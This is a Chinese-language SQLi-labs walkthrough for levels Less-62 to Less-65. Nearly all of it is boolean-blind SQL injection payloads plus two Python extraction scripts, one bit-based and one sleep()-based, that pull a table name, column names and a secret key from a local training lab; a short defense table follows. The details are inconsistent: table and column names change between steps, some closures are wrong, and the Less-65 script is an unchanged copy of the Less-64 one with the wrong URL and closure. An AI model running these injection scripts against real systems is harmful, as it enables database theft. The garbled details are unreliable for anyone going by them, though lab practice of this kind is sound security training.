?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),4,1))>108--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),4,1))>107--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),4,1))=108--+


第五个字符
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),5,1))>100--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),5,1))>115--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),5,1))>110--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),5,1))>105--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),5,1))>103--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),5,1))>102--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),5,1))>101--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),5,1))=102--+


第六个字符
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),6,1))>100--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),6,1))>115--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),6,1))>120--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),6,1))>118--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),6,1))>117--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),6,1))=118--+


第七个字符
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),7,1))>100--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),7,1))>50--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),7,1))>75--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),7,1))>65--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),7,1))>55--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),7,1))>53--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),7,1))>52--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),7,1))>51--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),7,1))=51--+


第八个字符
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),8,1))>100--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),8,1))>115--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),8,1))>110--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),8,1))>105--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),8,1))>108--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),8,1))>109--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),8,1))=110--+


第九个字符
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),9,1))>100--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),9,1))>50--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),9,1))>75--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),9,1))>85--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),9,1))>95--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),9,1))>98--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),9,1))>97--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),9,1))=98--+


第十个字符
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),10,1))>100--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),10,1))>115--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),10,1))>120--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),10,1))>118--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),10,1))>119--+
?id=1') and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),10,1))=120--+
```

用 `>` / `<` 缩小范围，再对位置 2、3… 重复，拼出完整表名。完整表名为“j9jlfv3nbx“。INBG8ANMPP


**5）猜列名数及长度**

```latex
?id=1') and (select count(column_name) from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z')=4--+
```

说明该表有 4 列。


猜第 1 列长度以列名

```latex
?id=1') and length((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1))=2--+

第一位字符
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),1,1))>100--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),1,1))>115--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),1,1))>110--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),1,1))>105--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),1,1))>103--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),1,1))>104--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),1,1))=105--+

第二位字符
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),2,1))>100--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),2,1))>50--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),2,1))>75--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),2,1))>85--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),2,1))>95--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),2,1))>98--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),2,1))>99--+
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 0,1),2,1))=100--+
```


由此可得第 1 列是 2 位，并且名为“id”。

猜第 2 列长度以列名

```latex
?id=1') and length((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 1,1))=6--+

第一位字符
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 1,1),1,1))>100--+
...

第二位字符
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 1,1),2,1))>100--+
....

第三位字符
...

第四位字符
...

第五位字符
...

第六位字符
...
```


由此可得第 2 列是 6 位，并且名为“sessid”。

猜第 3 列长度以列名

列名常为 `secret_` + 随机后缀。可先确认列数量，再对 `column_name` 做同样盲注：

```latex
?id=1') and length((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 2,1))=11--+

第一位字符
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 2,1),1,1))>100--+
...

第二位字符
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 2,1),2,1))>100--+
....

第三位字符
...

第四位字符
...

...
...

第十一位字符
...
```

（`limit` 偏移按实际列顺序调整；或 `group_concat` 后按字符位猜。）

也可利用规律：前缀固定为 `secret_`，只盲注后面若干字符，节省次数。


由此可得第 3 列是 11 位，并且名为“secret_QSUB”。

猜第 4 列长度以列名

```latex
?id=1') and length((select column_name from information_schema.columns where table_schema='challenges' and table_name='INBG8ANMPP' limit 3,1))=4--+

第一位字符
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 3,1),1,1))>100--+
...

第二位字符
?id=1') and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='2YUHIP6P4Z' limit 3,1),2,1))>100--+
....

第三位字符
...

第四位字符
...
```


由此可得第 4 列是 4 位，并且名为“tryy”。

**6）猜 secret 值**

```latex
?id=1') and length((select secret_列名 from 库名.随机表名 limit 0,1))=24--+
```


```latex
第一位字符
?id=1') and ascii(substr((select secret_列名 from 库名.随机表名 limit 0,1),1,1))=115--+

第二位字符
?id=1') and ascii(substr((select secret_QSU8 from challenges.j9jlfv3nbx limit 0,1),2,1))=83--+

第三位字符
...
...
...

第二十四位字符
?id=1') and ascii(substr((select secret_QSU8 from challenges.j9jlfv3nbx limit 0,1),24,1))=51--+
```

密钥常见约 24 字符，二分逐位即可。

**6）提交密钥**

拼出完整 key 后填入页面验证。


这里通过手注测试，130 次是不够用的，这关得用脚本过。

引用大佬的脚本：<https://www.jianshu.com/p/f1811e108d58>

python 脚本如下：

```latex
#!/usr/bin/python3
# -*-coding:utf-8-*-

import re
import requests

url = "http://sqli-labs/Less-62/index.php"  # 改成你的地址
try_count = 0

def extract_bits(query, i, bit_values: list):
    """
    获取query执行结果的第 i 个（从1开始算）字符的3个比特
    哪3个比特由bit_values指定
    """
    global try_count

    assert len(bit_values) == 8
    bit_marks = 0
    for v in bit_values:
        bit_marks |= v

    payload = """
    '+(
SELECT CASE ASCII(SUBSTRING(({query}), {i}, 1)) & ({bit_mark})
    WHEN {0} THEN 1
    WHEN {1} THEN 2
    WHEN {2} THEN 3
    WHEN {3} THEN 4
    WHEN {4} THEN 5
    WHEN {5} THEN 6
    WHEN {6} THEN 7
    ELSE 8
END
)+'
    """.format(*bit_values[:7], query=query, bit_mark=bit_marks, i=i)
    payload = re.sub(r'\s+', ' ', payload.strip().replace("\n", " "))
    # print(payload)

    resp = requests.get(url, params={"id": payload})
    try_count += 1

    infos = ["Angelina", "Dummy", "secure", "stupid", "superman", "batman", "admin", "admin1"]

    match = re.search(r"Your Login name : (.*?)<br>", resp.text)
    assert match
    assert match.group(1) in infos
    bits = bit_values[infos.index(match.group(1))]
    return bits

def extract_data(query, length):
    """
    获取query查询结果的length个字符，每个字符只获取其第7位和前5位
    """
    res = ""
    for i in range(1, length+1):
        b2 = extract_bits(query, i, [0b00000000, 0b00000001, 0b00000010, 0b00000011, 0b00000100, 0b00000101, 0b00000110, 0b00000111])  # 00000111
        b1 = extract_bits(query, i, [0b00000000, 0b00001000, 0b00010000, 0b00011000, 0b01000000, 0b01001000, 0b01010000, 0b01011000])  # 01011000
        if b1 & 0b01000000 == 0:
            # 该字符为数字
            bit = b1 | b2 | 0b00100000
        else:
            # 该字符为字母
            bit = b1 | b2
        res += chr(bit)
    return res


if __name__ == "__main__":
    table_name = extract_data("select table_name from information_schema.TABLES where TABLE_SCHEMA='challenges' limit 1", 10)
    print("table_name:", table_name)

    secret_key = extract_data("select c from (select 1 as a, 2 as b, 3 as c, 4 as d union select * from challenges.%s limit 1,1)x" % table_name, 24)
    print("secret_key:", secret_key)

    print("Done. try_count:", try_count)

```

运行后如图所示，只需要大约 60 多次就猜解出来了。

```latex
python less62.py
```


#### 省次数要点

| 技巧 | 说明 |
| --- | --- |
| 二分法 | 每字符约 7 次，远优于线性 0～127 |
| 已知规律 | 表名长度、`secret_` 前缀、key 长度可先测再爆 |
| 脚本 | 130 次内手注很累，推荐写布尔脚本 |
| 真假特征 | 固定用同一判断条件（如页面某段 HTML 是否出现） |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `')` |
| 手法 | 布尔盲注 |
| 限额 | ~130 queries |
| 目标 | 表名 → secret 列名 → key 值 |

***

### Less-63：GET · Challenges · 闭合 `'` · 布尔盲注（约 130 次）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-63/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型 |
| 闭合方式 | `'`（单引号，无括号） |
| 主手法 | **布尔盲注** |
| 尝试次数 | 约 **130 次** |
| 目标库 | `challenges`，表名/列名/密钥随机 |
| 与 Less-62 差异 | 仅闭合从 `')` 改为 `'`，流程相同 |

#### 源码逻辑（理解用）

类似 `WHERE id='$id'`。无报错、无联合回显，靠真假页盲注；数据仍在 `challenges` 随机表。

#### 解题步骤

**1）确认闭合与真假**

```latex
?id=1' and 1=1--+
?id=1' and 1=2--+
```

真假可区分 → 单引号布尔盲注。


**2）库名长度及库名**

```latex
?id=1' and length(database())=10--+

第一个字符
?id=1') and ascii(substr(database(),1,1))>100--+
第二个字符
?id=1') and ascii(substr(database(),2,1))>100--+
第三个字符
?id=1') and ascii(substr(database(),3,1))>100--+
第四个字符
?id=1') and ascii(substr(database(),4,1))>100--+
第五个字符
?id=1') and ascii(substr(database(),5,1))>100--+
第六个字符
?id=1') and ascii(substr(database(),6,1))>100--+
第七个字符
?id=1') and ascii(substr(database(),7,1))>100--+
第八个字符
?id=1') and ascii(substr(database(),8,1))>100--+
第九个字符
?id=1') and ascii(substr(database(),9,1))>100--+
第十个字符
?id=1') and ascii(substr(database(),10,1))>100--+
```

由此可得完整库名是“challenges“。


**3）表名长度**

```latex
?id=1' and (select count(table_name) from information_schema.tables where table_schema='challenges')=1--+
```


```latex
?id=1' and length((select table_name from information_schema.tables where table_schema='challenges' limit 0,1))=10--+
```


**4）逐字符猜表名**

```latex
第一个字符
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),1,1))>100--+

第二个字符
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),2,1))>100--+

第三个字符
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),3,1))>100--+
...

第十个字符
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),10,1))>100--+
```

二分缩小范围，拼出表名。


**5）猜 secret 列名**

```latex
?id=1' and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='随机表名' limit 2,1),1,1))>64--+
```

或利用 `secret_` 前缀只猜后缀。


**6）猜 secret 值**

```latex
?id=1' and length((select secret_列名 from 随机表名 limit 0,1))=24--+
```


```latex
?id=1' and ascii(substr((select secret_列名 from 随机表名 limit 0,1),1,1))>64--+
```


**6）提交密钥**

填入页面完成挑战。


这里通过手注测试，130 次是不够用的，这关得用脚本过。

引用大佬的脚本：<https://www.jianshu.com/p/f1811e108d58>

python 脚本如下：

```latex
#!/usr/bin/python3
# -*-coding:utf-8-*-

import re
import requests

url = "http://sqli-labs/Less-63/index.php"  # 改成你的地址
try_count = 0

def extract_bits(query, i, bit_values: list):
    """
    获取query执行结果的第 i 个（从1开始算）字符的3个比特
    哪3个比特由bit_values指定
    """
    global try_count

    assert len(bit_values) == 8
    bit_marks = 0
    for v in bit_values:
        bit_marks |= v

    payload = """
    '+(
SELECT CASE ASCII(SUBSTRING(({query}), {i}, 1)) & ({bit_mark})
    WHEN {0} THEN 1
    WHEN {1} THEN 2
    WHEN {2} THEN 3
    WHEN {3} THEN 4
    WHEN {4} THEN 5
    WHEN {5} THEN 6
    WHEN {6} THEN 7
    ELSE 8
END
)+'
    """.format(*bit_values[:7], query=query, bit_mark=bit_marks, i=i)
    payload = re.sub(r'\s+', ' ', payload.strip().replace("\n", " "))
    # print(payload)

    resp = requests.get(url, params={"id": payload})
    try_count += 1

    infos = ["Angelina", "Dummy", "secure", "stupid", "superman", "batman", "admin", "admin1"]

    match = re.search(r"Your Login name : (.*?)<br>", resp.text)
    assert match
    assert match.group(1) in infos
    bits = bit_values[infos.index(match.group(1))]
    return bits

def extract_data(query, length):
    """
    获取query查询结果的length个字符，每个字符只获取其第7位和前5位
    """
    res = ""
    for i in range(1, length+1):
        b2 = extract_bits(query, i, [0b00000000, 0b00000001, 0b00000010, 0b00000011, 0b00000100, 0b00000101, 0b00000110, 0b00000111])  # 00000111
        b1 = extract_bits(query, i, [0b00000000, 0b00001000, 0b00010000, 0b00011000, 0b01000000, 0b01001000, 0b01010000, 0b01011000])  # 01011000
        if b1 & 0b01000000 == 0:
            # 该字符为数字
            bit = b1 | b2 | 0b00100000
        else:
            # 该字符为字母
            bit = b1 | b2
        res += chr(bit)
    return res


if __name__ == "__main__":
    table_name = extract_data("select table_name from information_schema.TABLES where TABLE_SCHEMA='challenges' limit 1", 10)
    print("table_name:", table_name)

    secret_key = extract_data("select c from (select 1 as a, 2 as b, 3 as c, 4 as d union select * from challenges.%s limit 1,1)x" % table_name, 24)
    print("secret_key:", secret_key)

    print("Done. try_count:", try_count)

```

运行后如图所示，只需要大约 60 多次就猜解出来了。

```latex
python less63.py
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `'` |
| 手法 | 布尔盲注（同 62） |
| 限额 | ~130 |
| 对照 | 62 用 `')`；63 用 `'` |

***

### Less-64：GET · Challenges · 数字型 · 布尔盲注（约 130 次）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-64/?id=1` |
| 注入方式 | GET |
| 类型 | **数字型**（无引号包裹 `$id`） |
| 主手法 | **布尔盲注**（无联合回显、无报错回显） |
| 尝试次数 | 约 **130 次** |
| 目标库 | `challenges`，表名/列名/密钥随机 |
| 目标 | 限次内猜出 secret key 并提交 |
| 与 62/63 差异 | 无需 `'` / `')` 闭合，条件直接接在数字后 |

#### 源码逻辑（理解用）

类似：

```sql
SELECT * FROM security.users WHERE id=$id LIMIT 0,1
```

整型注入；页面仅「有数据 / 无数据」两类表现，靠真假页盲注。挑战数据在 `challenges` 随机表。

#### 解题步骤

**1）确认数字型与真假**

```latex
?id=1 and 1=1
?id=1 and 1=2
```

或

```latex
?id=1)) and 1=1--+
?id=1)) and 1=2--+
```

前者正常、后者异常 → 布尔盲注可用，且为数字型。


**2）表名长度**

```latex
?id=1 and length((select table_name from information_schema.tables where table_schema='challenges' limit 0,1))=10
```

常见约 10 字符，以本地真假为准。


**3）逐字符猜表名（二分 ASCII）**

```latex
?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),1,1))>100
```

对位置 2、3… 重复，拼出完整表名。


**4）猜 secret 列名**

```latex
?id=1 and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='随机表名' limit 2,1),1,1))=115
```

可利用前缀 `secret_`，只盲注后缀以省次数。


**5）猜 secret 值**

```latex
?id=1 and length((select secret_列名 from 随机表名 limit 0,1))=24
```


```latex
?id=1 and ascii(substr((select secret_列名 from 随机表名 limit 0,1),1,1))>64
```

密钥常见约 24 字符，二分逐位即可。


**6）提交密钥**

拼出完整 key 后填入页面验证。


这里通过手注测试，130 次是不够用的，这关得用脚本过。

使用的是时间盲注的办法

python 脚本如下：

```latex
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
SQLi-Labs Less-64 时间盲注完整脚本
闭合：))
"""

import requests
import time

url = "http://sqli-labs/Less-64/"   # 改成你的地址
delay = 3

def check(payload):
    full = f"{url}?id=1)) and if({payload},sleep({delay}),0)--+"
    start = time.time()
    try:
        requests.get(full, timeout=delay+3)
    except:
        pass
    return time.time() - start >= delay - 0.5

def get_length(query):
    print(f"[*] 获取长度: {query}")
    for i in range(1, 50):
        if check(f"length(({query}))={i}"):
            print(f"[+] 长度 = {i}")
            return i
    return 0

def get_data(query):
    length = get_length(query)
    if not length:
        return ""
    result = ""
    for pos in range(1, length+1):
        low, high = 32, 126
        while low <= high:
            mid = (low + high) // 2
            if check(f"ascii(substr(({query}),{pos},1))>{mid}"):
                low = mid + 1
            else:
                high = mid - 1
        result += chr(low)
        print(f"[{pos}/{length}] {result}")
    return result

def main():
    print("="*50)
    print("Less-64 时间盲注")
    print("="*50)

    # 1. 数据库名
    db = get_data("select database()")
    print(f"\n[+] 数据库名: {db}\n")

    # 2. 表名
    table = get_data(f"select table_name from information_schema.tables where table_schema='{db}' limit 0,1")
    print(f"\n[+] 表名: {table}\n")

    # 3. 字段名（通常 secret 在第3个字段左右）
    columns = []
    for i in range(5):  # 最多取5个字段
        col = get_data(f"select column_name from information_schema.columns where table_schema='{db}' and table_name='{table}' limit {i},1")
        if not col:
            break
        columns.append(col)
        print(f"[+] 字段{i+1}: {col}")

    # 4. 找 secret 字段并提取
    secret_col = next((c for c in columns if "secret" in c.lower()), columns[-1] if columns else None)
    if secret_col:
        print(f"\n[*] 提取密钥字段: {secret_col}")
        secret = get_data(f"select {secret_col} from {table} limit 0,1")
        print("\n" + "="*50)
        print(f"[✓] Secret Key: {secret}")
        print("="*50)

if __name__ == "__main__":
    main()
```

运行后如图所示。

```latex
python less64.py
```


#### 省次数要点

| 技巧 | 说明 |
| --- | --- |
| 二分法 | 每字符约 7 次 |
| 已知规律 | 表名长度、`secret_` 前缀、key 长度先测再爆 |
| 脚本 | 130 次内推荐布尔脚本 |
| 真假特征 | 固定用同一页面差异判断 |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 类型 | 数字型，无引号 |
| 手法 | 布尔盲注 |
| 限额 | ~130 |
| 对照 | 62：`')`；63：`'`；64：整型 |

***

### Less-65：GET · Challenges · 闭合 `")` · 布尔盲注（约 130 次）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-65/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型 |
| 闭合方式 | `")`（双引号 + 右括号） |
| 主手法 | **布尔盲注** |
| 尝试次数 | 约 **130 次** |
| 目标库 | `challenges`，表名/列名/密钥随机 |
| 目标 | 限次内猜出 secret key 并提交 |
| 与前后关 | 62 为 `')`，63 为 `'`，64 为数字，65 为 `")`；手法同为布尔盲注 |

#### 源码逻辑（理解用）

类似：

```sql
SELECT * FROM security.users WHERE id=("$id") LIMIT 0,1
```

需用 `")` 闭合；无报错、无联合回显，靠真假页推断。数据在 `challenges` 随机表。

#### 解题步骤

**1）确认闭合与真假**

```latex
?id=1"
?id=1")
?id=1") and 1=1--+
?id=1") and 1=2--+
```

`1") and 1=1--+` 正常、`1=2` 异常 → 闭合为 `")`，布尔可用。


**2）表名长度**

```latex
?id=1") and length(database())=10--+
```


**3）逐字符猜表名**

```latex
?id=1") and ascii(substr((select table_name from information_schema.tables where table_schema='challenges' limit 0,1),1,1))>100--+
```

二分缩小范围，拼出表名。


**4）猜 secret 列名**

```latex
?id=1") and ascii(substr((select column_name from information_schema.columns where table_schema='challenges' and table_name='随机表名' limit 2,1),1,1))>64--+
```

或固定前缀 `secret_`，只猜后缀。


**5）猜 secret 值**

```latex
?id=1") and length((select secret_列名 from 随机表名 limit 0,1))=24--+
```


```latex
?id=1") and ascii(substr((select secret_列名 from 随机表名 limit 0,1),1,1))>64--+
```


**6）提交密钥**

填入页面完成挑战。


这里通过手注测试，130 次是不够用的，这关得用脚本过。

使用的是时间盲注的办法

python 脚本如下：

```latex
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
SQLi-Labs Less-64 时间盲注完整脚本
闭合：))
"""

import requests
import time

url = "http://sqli-labs/Less-64/"   # 改成你的地址
delay = 3

def check(payload):
    full = f"{url}?id=1)) and if({payload},sleep({delay}),0)--+"
    start = time.time()
    try:
        requests.get(full, timeout=delay+3)
    except:
        pass
    return time.time() - start >= delay - 0.5

def get_length(query):
    print(f"[*] 获取长度: {query}")
    for i in range(1, 50):
        if check(f"length(({query}))={i}"):
            print(f"[+] 长度 = {i}")
            return i
    return 0

def get_data(query):
    length = get_length(query)
    if not length:
        return ""
    result = ""
    for pos in range(1, length+1):
        low, high = 32, 126
        while low <= high:
            mid = (low + high) // 2
            if check(f"ascii(substr(({query}),{pos},1))>{mid}"):
                low = mid + 1
            else:
                high = mid - 1
        result += chr(low)
        print(f"[{pos}/{length}] {result}")
    return result

def main():
    print("="*50)
    print("Less-64 时间盲注")
    print("="*50)

    # 1. 数据库名
    db = get_data("select database()")
    print(f"\n[+] 数据库名: {db}\n")

    # 2. 表名
    table = get_data(f"select table_name from information_schema.tables where table_schema='{db}' limit 0,1")
    print(f"\n[+] 表名: {table}\n")

    # 3. 字段名（通常 secret 在第3个字段左右）
    columns = []
    for i in range(5):  # 最多取5个字段
        col = get_data(f"select column_name from information_schema.columns where table_schema='{db}' and table_name='{table}' limit {i},1")
        if not col:
            break
        columns.append(col)
        print(f"[+] 字段{i+1}: {col}")

    # 4. 找 secret 字段并提取
    secret_col = next((c for c in columns if "secret" in c.lower()), columns[-1] if columns else None)
    if secret_col:
        print(f"\n[*] 提取密钥字段: {secret_col}")
        secret = get_data(f"select {secret_col} from {table} limit 0,1")
        print("\n" + "="*50)
        print(f"[✓] Secret Key: {secret}")
        print("="*50)

if __name__ == "__main__":
    main()
```

运行后如图所示。

```latex
python less65.py
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `")` |
| 手法 | 布尔盲注 |
| 限额 | ~130 |
| 流程 | 表名 → secret 列名 → key 值 |

***

## 6. 关卡速查表（精简）

| Less | 类型概要 |
| --- | --- |
| 1 | GET 单引号字符 · 报错/联合 |
| 2 | GET 整型 |
| 3 | GET `')` |
| 4 | GET `")` |
| 5–6 | 双查询/报错，回显少 |
| 7 | 文件相关提示 |
| 8 | 布尔盲注 |
| 9–10 | 时间盲注 |
| 11–16 | POST 系列 |
| 17 | UPDATE 中注入 |
| 18–19 | UA / Referer |
| 20–22 | Cookie / 二次 |
| 23–28 | 基础过滤绕过 |
| 29–37 | 转义与进阶过滤 |
| 38–53 | 堆叠与综合 |
| 54–61 | 限次 · 报错/联合取 key |
| 62–65 | 限次 · 盲注取 key |

***

## 7. 常见问题

| 问题 | 处理 |
| --- | --- |
| 页面数据库连接失败 | 检查 `db-creds.inc`、MySQL 是否启动、账号权限 |
| Setup 后仍无数据 | 再点一次 resetDB；看 MySQL 用户是否有建库权限 |
| PHP 报 `mysql_*` 未定义 | 换 PHP5 环境或 Docker / PHP7 适配 fork |
| `order by` 一直报错 | 闭合符不对；先只测 `'` `"` `)` 组合 |
| 盲注太慢 | 写脚本；时间盲注把 `sleep` 调到刚能区分即可 |
| Challenge 被重置 | 减少盲目尝试；先在笔记里写好 payload 再提交 |
| `into outfile` 失败 | 权限与 `secure_file_priv` 限制，属正常 |

***

## 8. 防御对照（学完用来写安全方案）

| 问题 | 防御方向 |
| --- | --- |
| 拼接 SQL | 预编译 / 参数化查询（PDO、mysqli 预处理） |
| 报错回显 | 生产环境关闭详细 SQL 错误输出 |
| 盲注 | 参数化 + 最小权限账号 + WAF 辅助 |
| 堆叠 | 禁用多语句；最小权限 |
| 二次注入 | 入库与出库查询均参数化 |
| 管理权限 | 应用账号禁止 `FILE`、禁止写 Web 目录 |

***

## 9. 卸载 / 清理

### 源码部署

```bash
# 删除网站目录
rm -rf /var/www/html/sqli-labs

# 可选：删除 MySQL 中靶场库
mysql -u root -p -e "DROP DATABASE IF EXISTS security;"
```

### Docker

```bash
docker stop sqli-labs
docker rm sqli-labs
docker rmi acgpiano/sqli-labs   # 镜像名以实际为准

# compose 项目
docker compose down -v
```

***

## 10. 学习建议

1. 每关先**自己判闭合**，再查 Writeup
2. 建立个人 payload 模板：联合 / 报错 / 布尔 / 时间
3. 盲注一定要练**自动化**，否则 62–65 会很痛苦
4. 对照源码看 `mysql_query($sql)` 如何拼接，才能理解「为什么能注」
5. 同步记防御：参数化如何改写该关 SQL

***

## 11. 参考资料

* 官方仓库：<https://github.com/Audi-1/sqli-labs>
* 官方 readme 中的安装步骤与知识点列表
* 作者相关讲解可在 SecurityTube / 博客等检索 “Audi sqli labs”（以官方 readme 链接为准）

***

**笔记版本**：v1.0\
**适用对象**：SQL 注入入门 → 进阶（含盲注与 Challenge）\
**维护提示**：PHP 版本与 `mysql_*` 兼容性是本地搭建最大坑，优先 Docker

***


> 更新: 2026-10-09 20:40:23  
> 原文: <https://www.yuque.com/bmxq7n/gqg3ydrla9m0uigo>